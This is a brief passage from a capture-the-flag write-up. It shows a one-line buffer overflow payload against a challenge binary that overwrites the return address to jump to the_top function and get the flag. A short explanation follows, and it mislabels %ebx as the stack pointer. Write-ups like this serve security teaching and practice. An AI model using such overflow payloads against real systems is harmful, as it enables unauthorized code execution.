 **./rop_to_the_top32 "$(python -c 'print "A"\*0x28 + "BBBB" + "\xdb\x84\x04\x08"')"**

We enter the character ‘A’ to fill the size of the buffer, “BBBB” to replace the current stack pointer (%ebx) followed by the address to which we wish to point to, here the address of **the_top** function.

Running the above command on the shell server gives us the flag.

---

_For more writeups, you can follow me on_ [_Github_](https://github.com/wr47h)
